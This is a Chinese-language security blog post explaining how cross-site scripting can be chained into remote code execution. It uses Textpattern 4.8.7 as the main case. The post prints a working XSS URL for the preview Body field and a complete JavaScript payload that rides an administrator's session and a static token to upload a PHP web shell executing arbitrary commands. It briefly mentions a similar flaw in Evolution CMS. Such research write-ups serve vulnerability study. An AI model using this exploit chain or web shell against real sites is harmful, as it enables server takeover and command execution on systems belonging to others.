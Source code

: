 
浅谈 xss2rce 的一些实现

- - -

## 浅谈 xss2rce 的一些实现

### Background

翻了翻我以前挖的漏洞和一些 ctf 题目，发现都不约而同出了这么一个思路，xss2rce，我觉得这个点比较有意思的，总结了几个漏洞分析把它记录了下来

### xss2rce 前世

在很多情况，在可以执行 js 代码的前提下，我们可以通过编写 html+js，使用 xmlhttprequest 等发包方法来实现上传文件，或者反弹命令等进行 rce

在 Textpattern 4.8.7 中，

```plain
/textpattern/index.php?Body=A+test+article.+<img+src=+onerror=alert(1)%3>&app_mode=async&view=preview
```

Body 字段没有进行过滤，导致我们可以进行 xss

本身 Textpattern 是一个文本管理的系统，所以管理员是可以进行一些诸如文件上传之类的操作

```plain
<script>
function uploadWebShell(token) {
    fetch('/textpattern/index.php',{
        method: 'POST',
        headers: {
            'Content-Length': '667', 
            'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryozIzNEFsufRB6LpY', 
            'Connection': 'close'
        },
        credentials: 'include',
        body: '------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="theplugin"; filename="csrfshell.php"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="install_new"\x0d\x0a\x0d\x0aUpload\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="event"\x0d\x0a\x0d\x0aplugin\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="step"\x0d\x0a\x0d\x0aplugin_upload\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="_txp_token"\x0d\x0a\x0d\x0a'+token+'\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY--\x0d\x0a'
    });
}
uploadWebShell(token);
</script>
```

我们构造如上数据包发送给管理员就会上传一个 shell，这个漏洞有一个不一样的点在于需要一个 token 作验证，但不幸的是 token 是静态的，我们可以通过访问首页记录 token

同样的在 Evolution CMS 中也曾出现过这样的问题，不一样的只是他功能点不能上传文件但是可以修改文件

